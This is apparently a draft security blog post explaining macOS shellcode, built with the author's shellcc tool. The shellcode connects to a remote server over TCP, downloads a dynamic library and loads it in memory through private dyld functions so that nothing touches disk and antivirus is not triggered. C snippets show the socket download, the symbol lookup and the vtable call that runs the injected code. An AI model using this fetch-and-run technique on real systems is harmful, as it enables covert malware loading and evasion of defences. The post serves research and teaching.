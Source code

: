 ```yaml
---
layout: post
title: Loading from memory
draft: true
---
```


Building shellcode and playing with assembly is my idea of fun. In this article I introduce shellcode that executes to download a dynamic library from a TCP connection and loads it without ever touching the disk. On MacOS, there are several methods of doing that [1], but I would like to show another alternative which possibly requires less code to implement.

## TL;DR;

I reuse functions in DYLD that were never meant to be used externally.

## Shellcode Compiler

A while back I introduced a utility called [shellcc](https://github.com/nologic/shellcc) which is built to assist with building shellcode using a high level language like C. It is called _shellcc_ only because it constructs very compact byte code of instructions. Unfortunately, it does not really handle a lot of the important use-cases of for real shellcode construction. Use-cases such as character restrictions. As such, the tool serves another purpose really well.

I show this use-case in an introductory walk through:

<center><iframe width="420" height="315" src="https://www.youtube.com/embed/yg9svg9xE8g" frameborder="0" allowfullscreen></iframe></center>

When I started out my work on iOS, I did not know Aarch64 assembly very well. So, I needed a boon to help me bootstrap. This was the other purpose of _shellcc_ - an educational tool. I would use it to compile basic C programs in order to understand how the assembly is written to make system calls and process data. So, the tool is kind of an 80% solution that would give me template assembly that I could later play with. It also helped me with reverse engineering. Specifically to test theories about what certain blocks from IDAPro might have looked like in a high level language.

On semi-regular basis, I try to do a presentation at the NYU OSIRIS lab for educational purposes. I pick a topic that I had played with recently and found useful and present in practical detail. I wanted to do this with _shellcc_ and, so, I came up with a practial example: *How to write one of the most common shellcodes? One that connects to a TCP port, downloads a dylib and loads it into the process space.* As an added challenge, I wanted to do so without touching disk (and triggering AV's). This is what I would like to present in this blog. Of course, as I've mentioned earlier, there is more than one way.

## The Technique

The file that implements the technique is called [injectdyld.c](https://github.com/nologic/shellcc/blob/master/shellcode/injectdyld.c) and can be found in the github repository. The name is a bit misleading, but the the technique is there.

First, we connect to the port and download the library:

```c
    bzero((struct sockaddr *)&serv_addr,sizeof(serv_addr));
    serv_addr.sin_family = AF_INET;
    serv_addr.sin_addr.s_addr = SERVER_IP;
    serv_addr.sin_port = htons(SERVER_PORT);

    // Connect to the remote host.
    if(scc_connect(sockfd,(struct sockaddr *)&serv_addr,
                   sizeof(serv_addr)) < 0) {
        // If not, clean up and bail.
        scc_exit(44);
    }

    int fileSize = receivefile(sockfd, dyld_buffer, mem_size);
```

Next, we load the dynamic loader:

```c
    int dyld_fd = scc_open("/usr/lib/dyld", O_RDONLY, 0);
    void* dyld_buf = scc_mmap(NULL, mem_size, PROT_READ, 
                              MAP_PRIVATE, dyld_fd, 0);
```

This step is a bit wasteful because the process would've likely already had the dynamic loader mapped in memory. However, we are in shell code and it is a lot easier to map the file than to find the existing location.

Then, we find the symbol `dlsym` which will help us find other symbols in the process space.

```c
    typedef void* (*dlsym_t)(void* handle, const char* symbol);
    dlsym_t dlsym = (dlsym_t)findSymbol64(dyld_buf, mem_size, 
                                          "_dlsym", 6);
```

The `findSymbol64` exists in the shellcode and it parses the Mach-O file of `dyld` to locate the function.

Then we locate the `loadFromMemory` function or, rather, a C++ class constructor.

```c
    typedef void* (*loadFromMemory_t)
       (const uint8_t* mem, uint64_t len, const char* moduleName);

    loadFromMemory_t loadFromMemory = (loadFromMemory_t)findSymbol64(
          dyld_buf, mem_size, "__ZN4dyld14loadFromMemoryEPKhyPKc", 33);

    void* image = loadFromMemory(dyld_buffer, fileSize, NULL);
```

The [__ZN4dyld14loadFromMemoryEPKhyPKc](https://opensource.apple.com/source/dyld/dyld-353.2.1/src/dyld.cpp) function was discovered by analyzing the dyld source code for how it loads Mach-O's into memory. This function will construct a class in memory to internally describe the layout and all the features that the system cares about.

```c++
ImageLoader* loadFromMemory(const uint8_t* mem, uint64_t len, 
                            const char* moduleName)
{
    // if fat wrapper, find usable sub-file
    const fat_header* memStartAsFat = (fat_header*)mem;
    uint64_t fileOffset = 0;
    uint64_t fileLength = len;
    if ( memStartAsFat->magic == OSSwapBigToHostInt32(FAT_MAGIC) ) {
        if ( fatFindBest(memStartAsFat, &fileOffset, &fileLength) ) {
            mem = &mem[fileOffset];
            len = fileLength;
```

Next is the easy part. This is where we force the loaded Mach-O file to join the process as a proper dynamic library.

```c
    typedef void (*registerInterposing)(void* _this);

    // `vtable for'ImageLoaderMachOCompressed
    ((registerInterposing) (*( (*(uint8_t***)image) + 64))) (image);
```

Because we are not implementing this in C++, we don't get the nice language abstractions to class objects. So, instead we have to force an instance call. Remember, back in the day, C++ was implemented as C++ to C translator, so we know this has to be possible.

We dereference the image object to obtain the `vtable`, we then dereference again at an offset to get the function of our dreams. We cast the pointer to a function pointer and call it with the pointer to the object as the first parameter. C++ functions (when looked through the eyes of C) expect the first parameter to the `this` pointer.

The `registerInterposing` is a function that is called when we inject libraries into the process by using the environment variable (i.e. `DYLD_INSERT_LIBRARIES`). Using this private interface activates the internal workings of DYLD to load libraries properly to be used by the rest of the process.

```c
    foo_t foo = dlsym(RTLD_DEFAULT, "foo");

    // call the desired procedure.
    int ret = foo();
```

Finally, we execute our library function to kick off the maliciously injected code.

## Conclusion
Using functions `loadFromMemory` and `registerInterposing` seem simple but it was not obvious without a fairly in-depth analysis of DYLD. This method is useful when the alternatives might not be applicable.


---
[1] Objective-C runtime method (https://s3.amazonaws.com/s3.synack.com/infiltrate.pdf slide 29)







